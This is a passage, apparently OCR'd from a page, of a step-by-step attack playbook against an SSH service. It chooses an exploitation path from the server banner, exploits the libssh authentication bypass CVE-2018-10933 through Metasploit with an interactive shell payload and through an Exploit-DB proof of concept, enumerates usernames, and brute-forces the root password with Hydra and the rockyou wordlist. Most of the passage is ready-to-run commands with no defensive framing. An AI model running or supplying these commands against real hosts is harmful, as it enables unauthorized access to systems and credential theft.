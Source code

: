 2) Decide exploitation path based on banner
- If the banner looks like “SSH-2.0-libssh_0.8.x” or “SSH-2.0-libssh_0.7.x” (known vulnerable ranges for CVE-2018-10933), try the libssh authentication bypass.
- If you see “OpenSSH_X.Y” (typical on Linux), prepare for credential attacks or other misconfig-based exploitation.

3A) Option A — libssh authentication bypass (CVE-2018-10933)
Metasploit approach:
```bash
msfconsole -q
search libssh
# Prefer an exploit module if present; otherwise a scanner + exploit chain
use exploit/multi/ssh/libssh_auth_bypass
set RHOSTS $IP
set RPORT $PORT
set TARGET 0
# Often a simple Unix command payload or interactive shell is supported
set PAYLOAD cmd/unix/interact
run
```

PoC approach via Exploit-DB (IDs may vary; adapt to the PoC you pull):
```bash
# Find a matching PoC
searchsploit libssh 0.8
# Example: copy the PoC to current directory (replace 46307 with the actual ID)
searchsploit -m 46307
# Run the PoC (syntax varies by PoC, commonly: host port 'command')
python3 46307.py $IP $PORT 'id'
```

If successful, you’ll get command execution or an authenticated session without valid credentials.

3B) Option B — Username enumeration (optional but helpful)
Metasploit:
```bash
msfconsole -q
use auxiliary/scanner/ssh/ssh_enumusers
set RHOSTS $IP
set USER_FILE users.txt   # supply candidate users
run
```
Note: Some SSH servers leak valid vs invalid user behaviors (e.g., CVE-2018-15473 on certain OpenSSH versions). Use this to refine brute-force lists.

4) Credential attacks with Hydra (throttled)
Prepare wordlist:
```bash
# Ensure rockyou exists (Kali)
[ -f /usr/share/wordlists/rockyou.txt ] || gzip -d /usr/share/wordlists/rockyou.txt.gz
```

Hydra single user:
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt -s $PORT -f -V $IP ssh
```
